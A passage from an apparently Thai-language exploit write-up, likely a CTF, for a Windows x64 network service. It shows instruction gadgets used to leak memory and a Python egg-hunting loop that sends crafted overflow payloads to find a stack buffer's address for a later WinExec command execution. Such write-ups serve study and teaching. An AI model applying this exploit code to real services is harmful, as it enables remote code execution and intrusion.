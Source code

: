     จะพบว่ามี gadget ที่เราสามารถทำไปใช้ประโยชน์ได้

    ```python
    XX => 0x65
    0x1:	mov	rax, qword ptr gs:[rcx]

    XX => 0x66
    0x1:	mov	rax, qword ptr [rcx]

    XX => 0x51
    0x1:	push	rcx
    0x2:	mov	rax, qword ptr [rcx]
    ```

    จากนั้นเราทำการ Leak ค่าต่าง ๆ ที่เราต้องการ(และไม่ต้องการ LOL) ออกมาด้วย Gadget `0x65` กับ `0x66` ลองอ่านอันนี้ 

    [Windows x64 - Find Kernel32.dll address [WinDbg]](https://www.notion.so/Windows-x64-Find-Kernel32-dll-address-WinDbg-502f66b617a646098a0a12e17fb32fa8)

4. **Egg Hunting หา Address ของ msg_buf** 

    ปกติเวลาเราจะ Execute command ผ่าน WinExec เนี่ยเราต้องการ Address ของ Command นั้น ๆ ด้วยซึ่งผมพยายามหา Gadget ที่ Leak Stack Address ออกมาแล้วมันไม่เจออ่ะ (หาทั้งใน Binary กับ Kernel32.dll เบย)

    เลยลองอีกวิธีคือ Leak จาก StackBase/StackLimit แล้วหามา Offset เอา

    [Windows x64 - StackBase/StackLimit [WinDbg]](https://www.notion.so/Windows-x64-StackBase-StackLimit-WinDbg-a7ed4be32ce04cdbb9890a58ac5f2a19)

    แต่ตอนแรกเลือกหา Offset จาก StackBase แล้วเอาไปคำนวนเลย สรุปว่า Address มันไม่ตรงแฮะ เลยต้องเปลี่ยนวิธี ในเมื่อเรามี StackBase/StackLimit แล้ว นั่นหมายความว่าเรารู้ว่ายังไง Address ของ Msg_buf ต้องอยู่ระหว่าง 2 Address นี้แน่ ๆ และเราสามารถ Leak Address ต่าง ๆ ออกมาได้(Gadget `0x66`) เลยลองมา Implement Egg Hunting เพื่อหา Address ดู

    ```python
    print("[!] Leaking msg_buf by egghunting...")
      for addr in range(stackBase-8, stackLimit, -8):
        s = connect()
        s.send(craft_header())
    		
        egg = b"\x41\42\x43\x44\x45\x46\x47\x48"
        msg = egg # Egg 
        msg += b"A"*(512-8)
        msg += b"\x66"  # mov rax, ptr qword [rcx]
        msg += b"\x00"*7 #padding for reverse_arr
        msg += p64(addr) #replace rcx <-- ImageBaseAddress + WinExec Offset

        s.send(msg)
        res = u64(s.recv(2048))
        # print("Addr:", p64(res))
        if res == u64(egg):
            print("[+] Leaked msg_buf Address :", str(hex(addr)))
            msg_buf_addr = p64(addr)
            break
        s.close() # close connection
        w8()
    ```
